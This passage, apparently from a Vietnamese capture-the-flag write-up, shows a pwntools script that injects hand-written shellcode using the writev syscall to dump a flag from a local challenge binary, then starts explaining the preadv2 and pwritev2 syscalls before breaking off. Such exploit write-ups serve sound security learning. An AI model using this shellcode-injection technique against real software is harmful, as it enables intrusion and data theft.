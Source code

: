 
script :  

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./challenge',checksec=False)
context.arch = 'amd64'
p = process()


gdb.attach(p,gdbscript='''
           b*main+374
           ''')
shellcode = asm('''
            push 0x100  ; setup struct iovec
            add rdx,0x1000 ; add 0x1000 để tới vùng nhớ chứa flag
            push rdx ; push vào stack setup struct iovec
            mov rsi,rsp ; setup cho syscall writev
            mov rdi,1 ; setup cho syscall writev
            mov rdx,1 ; setup cho syscall writev
            mov rax,0x14 ;setup cho syscall writev
            syscall
                ''')
input()
p.send(shellcode)

p.interactive()
```

![image](https://hackmd.io/_uploads/SyTUKb_D1l.png)

### preadv2 and pwritev2

tiếp theo ta sẽ thử viết bằng ```preadv2``` và ```pwritev2```

```
ssize_t preadv2(int fd, const struct iovec *iov, int iovcnt, off_t offset, int flags);
```

- struct sẽ tương tự với ```writev```


```
rax: Số syscall (333 cho preadv2)
rdi: File descriptor (fd)
rsi: Con trỏ tới cấu trúc iovec chứa buffer
rdx: Số lượng buffer (iovcnt)
r10: Offset
r8: Flags
```

pwritev2
